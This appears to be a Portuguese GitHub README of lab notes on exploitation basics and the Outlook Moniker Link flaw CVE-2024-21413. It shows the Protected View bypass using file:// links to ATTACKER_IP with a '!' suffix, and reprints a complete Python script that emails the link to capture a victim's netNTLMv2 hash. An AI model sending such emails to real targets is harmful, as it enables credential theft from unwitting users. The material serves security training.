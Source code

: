 # O básico da exploração
A exploração de vulnerabilidades é o ato de utilizar falhas de segurança em sistemas, redes ou aplicações para obter acesso não autorizado ou realizar ações maliciosas. Essa prática é comum tanto entre hackers criminosos quanto entre pesquisadores de segurança que buscam identificar e corrigir falhas. 

## O que é vulnerabilidade?
Vulnerabilidade é uma fraqueza em um sistema que pode ser explorada para comprometer sua segurança, seja por meio de erros de programação, configurações inadequadas ou falhas de projeto. 

Tipos de exploração:
* Exploração de vulnerabilidades conhecidas: Utilização de falhas já identificadas e para as quais existem correções disponíveis, mas que ainda não foram aplicadas em todos os sistemas. 
* Exploração de vulnerabilidades de dia zero: Ataques que exploram falhas ainda não divulgadas e para as quais não existem correções, tornando a defesa mais difícil. 
* Engenharia social: Manipulação de pessoas para que revelem informações confidenciais ou realizem ações que comprometam a segurança do sistema.

## Exemplo de vulnerabilidade

### Moniker Link (CVE-2024-21413)
O Outlook pode analisar hiperlinks como HTTP e HTTPS. No entanto, também pode abrir URLs que especificam aplicativos, conhecidos como [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers). Normalmente, o Outlook emite um aviso de segurança quando aplicativos externos são acionados.

<img width="361" height="229" alt="image" src="https://github.com/user-attachments/assets/0dbd04bb-5d2c-46d0-bede-db41972fb996" />

Este pop-up é resultado do "Modo de Exibição Protegido" do Outlook. O Modo de Exibição Protegido abre e-mails contendo anexos, hiperlinks e conteúdo semelhante em modo somente leitura, bloqueando itens como macros (especialmente de fora da organização).

Usando o Moniker Link ```file://``` em nosso hiperlink, podemos instruir o Outlook a tentar acessar um arquivo, como um arquivo em um compartilhamento de rede (```<a href="file://ATTACKER_IP/test">Clique aqui</a>```). O protocolo SMB é usado, o que envolve o uso de credenciais locais para autenticação. No entanto, o "Modo de Exibição Protegido" do Outlook detecta e bloqueia essa tentativa.

```<p><a href="file://ATTACKER_MACHINE/test">Clique aqui</a></p>```

A vulnerabilidade aqui existe ao modificar nosso hiperlink para incluir o caractere especial ! e algum texto em nosso Moniker Link, o que resulta em ignorar o Modo de Exibição Protegido do Outlook. Por exemplo:

```<a href="file://ATTACKER_IP/test!exploit">Clique aqui</a>```.

```<p><a href="file://ATTACKER_MACHINE/test!exploit">Clique aqui</a></p>```

Nós, como invasores, podemos fornecer um Moniker Link dessa natureza para o ataque. Observe que o compartilhamento não precisa existir no dispositivo remoto, pois uma tentativa de autenticação será feita de qualquer maneira, resultando no envio do hash netNTLMv2 do Windows da vítima para o invasor.

A Execução Remota de Código (RCE) é possível porque os Links de Moniker usam o Modelo de Objeto Componente (COM) no Windows. No entanto, explicar isso está fora do escopo desta sala, pois não há nenhuma prova de conceito divulgada publicamente para obter RCE por meio deste CVE específico.

Nós, como invasores, podemos fornecer um Moniker Link dessa natureza para o ataque. Observe que o compartilhamento não precisa existir no dispositivo remoto, pois uma tentativa de autenticação será feita de qualquer maneira, resultando no envio do hash ```netNTLMv2``` do Windows da vítima para o invasor.

**Reforço de conhecimento**

```
P: Que tipo de Link de Moniker usamos no hiperlink?
R: file://

P: Qual é o caractere especial usado para ignorar o "Modo de Exibição Protegido" do Outlook?
R: !
```

## Script de Exploração
O objetivo, como invasor, é criar um e-mail para a vítima com um Moniker Link que contorne o "Modo de Exibição Protegido" do Outlook, onde o cliente da vítima tentará carregar um arquivo da máquina invasora, resultando na captura do hash netNTLMv2 da vítima.

Utilizarei um script do autor CMNatic

```
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```












